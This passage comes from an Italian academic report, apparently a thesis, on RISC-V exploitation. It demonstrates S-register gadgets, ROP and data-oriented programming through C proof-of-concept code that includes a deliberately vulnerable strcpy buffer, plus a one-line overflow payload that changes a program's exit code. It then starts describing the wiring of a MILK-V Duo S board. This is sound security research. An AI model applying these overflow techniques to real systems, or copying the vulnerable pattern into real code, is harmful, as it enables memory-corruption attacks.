 In questo caso essendo una funzione priva di input da parte dell'utente scritta direttamente a basso livello, è invulnerabile a buffer overflow o altri exploit.\\
 Lo stesso codice compilato con GCC avrebbe prologhi ed epiloghi di funzioni che il compilatore crea per gestire le molteplici chiamate di funzione, con istruzioni del tipo \texttt{addi sp,sp -32} e \texttt{sd ra, 24(sp)}
 \subsection*{Manipolazione dei registri S}
\addcontentsline{toc}{subsection}{Manipolazione dei registri S}
In questa sezione si analizza la possibilità di usare registri S (callee saved) come gadget per eseguire codice arbitrario. Vengono scelti questi registri perché più facili da preservare tra le chiamate di funzione (il chiamante deve ripristinarli, quindi non sono ripristinati nella stessa funzione).\\
È più facile gestire i registri S, ma anche più difficile trovarli nel disassemblato, infatti vengono usati molto meno spesso rispetto a registri argomento \textit{a0-a7} che però vengono ripristinati nella stessa funzione e perdono l' importante caratteristica cercata.\\
\newline
Questa sezione di codice dichiara un registro \textit{s2} che verrà utilizzato nella funzione \textit{exit\_function()} come indirizzo sorgente il cui valore verrà copiato nel primo registro argomento della system call \textit{exit()}. Un attaccante, controllando un potenziale overflow, potrebbe riuscire a saltare all'istruzione \texttt{asm volatile ("li s2, 1");} invece che far proseguire l'esecuzione del programma all'istruzione \texttt{asm volatile ("li s2, 0");}. Il salto \texttt{asm volatile ("jal ra, exit\_function +22");} fa proprio questo, cercando di emulare una ROP e atterrando nella funzione \textit{exit\_function()} appena prima che venga eseguita l'operazione del registro \textit{s2}.\\
La firma della \textit{exit()} dichiara che la funzione accetta come primo argomento un intero che sarà il codice di uscita del programma. Un programma che termina correttamente su GNU/Linux e nello standard C ha codice di uscita 0.
\begin{minted}[escapeinside=||,mathescape=true]{c}
#include <stdio.h>
void not_called(){
	asm volatile ("li s2, 1");
	asm volatile ("jal ra, exit_function +22");
	return;
}

void exit_function(){
	printf("exit function\n");
	asm volatile ("li s2, 0");
	asm volatile ("mv a0, s2");
	asm volatile ("li a7, 93");
	asm volatile ("ecall");
	return;
}

int main(){
	register long s2 asm ("s2");
	asm volatile ("jal ra, not_called");
	return 0;
}
\end{minted}
Come viene mostrato nell'immagine seguente, non importa quale registro viene utilizzato per passare il valore (essendo tutti i registri general purpose), ma cosa viene copiato alla fine sul registro \textit{a0} prima della system call. Un attaccante potrebbe sfruttare questa metodologia per preservare i valori passati sui registri S tra le chiamate a funzione ed utilizzarli solo alla fine come registri ``da copiare" nei registri argomento.\\
Come si vede nell'immagine seguente, il programma una volta eseguito riesce a manipolare la system call \textit{exit()} avendo un return code di 1, invece che 0.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.9\linewidth]{images/manipulate_exit.png}
    \caption{Manipolazione syscall exit tramite registri \textit{S}}
\end{figure}
\FloatBarrier
\vspace{1cm}
Usando ROPGadget e filtrando il registro s2, è possibile trovare nel binario gli stessi gadget messi ``ad-hoc" nel codice C. Questo perché ROPGadget è programmato per cercare gli epiloghi di funzioni interessanti, quando si specifica l'architettura RISC-V.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.9\linewidth]{images/ROPGadgets_s2.png}
    \caption{ROPGadget e filtro sui registri \textit{S}}
\end{figure}
\FloatBarrier
\vspace{1cm}
Un test simile, ma qua non riportato è stato effettuato anche per i registri \textit{a} ``alti" (\textit{a4-a7}) che possono essere usati come registri sorgente, anche se devono però essere ripristinati.
\subsection*{Manipolazione della system call exit tramite ROP}
\addcontentsline{toc}{subsection}{Manipolazione della system call exit tramite ROP}
Utilizzando la Return Oriented Programming è possibile manipolare il flusso di un programma, se trovati i giusti gadget e fatti i giusti salti. Nel disassemblato in figura \ref{ref:rop-exit-manipulation} si può vedere la chiamata della system call \textit{exit} che viene eseguita dopo aver caricato il valore 3 nel registro \textit{a0}. Se un attaccante manipola il registro \textit{a0} trovando un gadget che lo imposta ad un altro valore, sarà in grado di chiamare la system call con valori arbitrari. Questo è quello che succede nella seguente ``Proof of concept" in cui nella funzione \textit{test\_emtpy2()} l'attaccante trova il giusto gadget per manipolare il registro \textit{a0} per poi saltare (in questo caso in modo hardcoded, per facilità di test) all'istruzione prima della system call exit.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/rop_exit.png}
    \caption{Manipolazione syscall exit con ROP}
    \label{ref:rop-exit-manipulation}
\end{figure}
\FloatBarrier
\vspace{1cm}
È possibile in questo modo manipolare il valore restituito dalla \textit{exit} (e quindi il codice di errore del programma) che sarà diverso a seconda del salto dell' attaccante.\\
Se il payload fa atterrare l'attaccante all'indirizzo \textit{0x1059a}, il programma restituirà come codice di errore \textit{3}, mentre se l'attaccante atterra all'indirizzo \textit{0x105c0}, il programma restituirà come codice di errore \textit{7}. L'attacco dipende quindi dall'indirizzo di ritorno passato nell'exploit e definisce il tipo di attacco come Return Oriented Programming.\\
È evidenziato in giallo nella figura il differente salto che porta a differenti risultati.
\subsection*{Data Oriented programming in RISC-V}
\addcontentsline{toc}{subsection}{Data Oriented programming in RISC-V}
Non sempre occorre trovare delle chain per manipolare l'indirizzo di ritorno di un programma per comprometterne il funzionamento una volta trovato il buffer overflow, ma è anche possibile dotarsi di elementi che l'attaccante stesso mette nello stack i quali non vengono eseguiti (a causa delle mitigazioni) ma possono comunque essere letti dal programma.\\
Prendendo come riferimento il seguente codice C, è possibile vedere come la funzione \textit{not\_called()} faccia la chiamata della syscall \textit{exit} utilizzando il registro \textit{a6} come registro sorgente di \textit{a0}. Se un attaccante riesce a sovrascrivere l'area di memoria nella quale risiede il registro \textit{a6} è possibile quindi manipolare anche il registro argomento \textit{a0}. Studiando come il compilatore salva i valori nei registri, si è potuto notare come il registro \textit{a6} venga posto in memoria estremamente vicino al buffer \textit{char buffer[64];} e di conseguenza raggiungibile tramite overflow senza compromettere il funzionamento degli altri registri argomento nelle vicinanze.
\begin{minted}[escapeinside=||,mathescape=true]{c}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void not_called() {
    printf("exit function\n");
    asm volatile ("li a6, 0");
    asm volatile ("mv a0, a6");
    asm volatile ("li a7, 93");
    asm volatile ("ecall");
    return;
}

int test_empty() {
    printf("Empty function\n");
    return 1;
}

void vulnerable_function(char* string) {
    char buffer[64];
    test_empty();
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
\end{minted}
Eseguento il programma normalmente, si ha un codice di uscita di 0, ritornando senza codice di errore, ma tramite Data Orieted Programming (DOP) si può manipolare questo codice con valori a piacere passati sullo stack.\\
Nel payload seguente è stato costruito un exploit per mandare in overflow il programma con i primi 64 byte nei quali è anche presente l'indirizzo di partenza del registro a6. Scrivendo in questa area di memoria è infatti possibile sovrascrivere anche i valori di questo registro e (in questo caso specifico) impostarlo ad un valore arbitrario.
\begin{minted}{bash}
./rop.out "$(python3 -c 'print("A"*56 + "\x01" + "B"*15 + "\x5a\x05\x01\x00")')"
\end{minted}
In base a cosa viene immesso nell'exploit dopo il 56-esimo carattere ``A" sottoforma di valore esadecimale, si avrà poi il registro \textit{a6} caricato di quel singolo valore. Con \textit{x01} si imposterà il registro a 1, con \textit{x02} a 2 e così via.\\L'esecuzione del programma e quindi il suo valore di uscita chiamato tramite la syscall \textit{exit()} dipenderà esclusivamente da come l'attaccante metterà i dati nello stack e quindi il flusso di esecuzione è detto ``Data Oriented".\\
La system call viene poi chiamata tramite un salto e quindi sovrascrivendo l'indirizzo di ritorno della funzione \textit{vulnerable\_function()} per atterrare nel gadget \texttt{li a6, 0} e caricare nel registro quello che è presente nello stack.
Di seguito un esempio dell'exploit appena spiegato eseguito su una scheda \textit{MILK-V} duo S.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/exit_manipulation_stack.png}
    \caption{Data Oriented Programming}
\end{figure}
\FloatBarrier
\vspace{1cm}
\section*{Attacchi all'hardware}
\addcontentsline{toc}{section}{Attacchi all'hardware}
In questa sezione si discuterà di attacchi su system on a chip basati su RISC-V che permettono di manipolare elementi hardware pilotati da driver di sistema e pin GPIO.\\
Con questa sezione si vuole porre importanza sulla sicurezza in questo tipo di processori su sistemi embedded che usano l'ISA RISC-V. Lo scenario che si è pensato è quello di avere questa architettura su un processore che gestisce un macchinario a controllo numerico oppure un macchinario automatico che comunica con il controllore umano attraverso dei LED di stato. Se il LED è verde, l'operazione si è conclusa con successo, se il LED è rosso lampeggiante, invece l'operazione è fallita e serve una revisione dell'oggetto.
\subsection*{Setup dell'ambiente}
\addcontentsline{toc}{subsection}{Setup dell'ambiente}
I test per questa sezione si sono concentrati sulla scheda MILK-V Duo S, ma sarebbero analoghi sulla stessa scheda di dimensioni RAM e capacità di calcolo ridotte MILK-V Duo.\\
Per prima cosa si è eseguito il ``firmware burning" dell' eMMC, ovvero la memoria integrata sulla scheda facendo il flash da un sistema esterno, tramite connessione USB. In seguito tramite connessione UART \cite{rohdeschwarz}(seriale) eseguita grazie ad un adattatore \textit{USB-to-UART} è stato possibile connettersi al processo di boot gestito da \textit{opensbi} \cite{OpenSBI}. Nelle figure sottostanti sono presentate le connessioni tra UART e MILK-V, il collegamento USB-C al MILK-V per il flash del firmware e un cavo RJ45 per la connessione ethernet alla scheda.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htb]
\minipage{0.32\textwidth}
  
\includegraphics[width=\linewidth]{images/uart_usb.jpg}
  \caption{Adattatore UART-to-USB}\label{fig:awesome_image1}
\endminipage\hfill
\minipage{0.32\textwidth}
  
\includegraphics[width=\linewidth]{images/duo_up.jpg}
  \caption{Pinout su scheda MILK-V Duo S}\label{fig:awesome_image2}
\endminipage\hfill
\minipage{0.32\textwidth}%
  
\includegraphics[width=\linewidth]{images/duo_uart.jpg}
  \caption{Setup completo della scheda}\label{fig:awesome_image3}
\endminipage
\end{figure}
\vspace{1cm}
\FloatBarrier
I pin sono collegati nel seguente modo
\begin{itemize}
    \item GND (pin 6) - Cavo nero
    \item TX (pin 8) - Cavo bianco
    \item RX (pin 10) - Cavo verde
\end{itemize}
Una volta completato il collegamento tra scheda e adattatore, è possibile inserire una scheda micro-SD sulla quale è stato flashato un sistema operativo compatibile con RISC-V.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
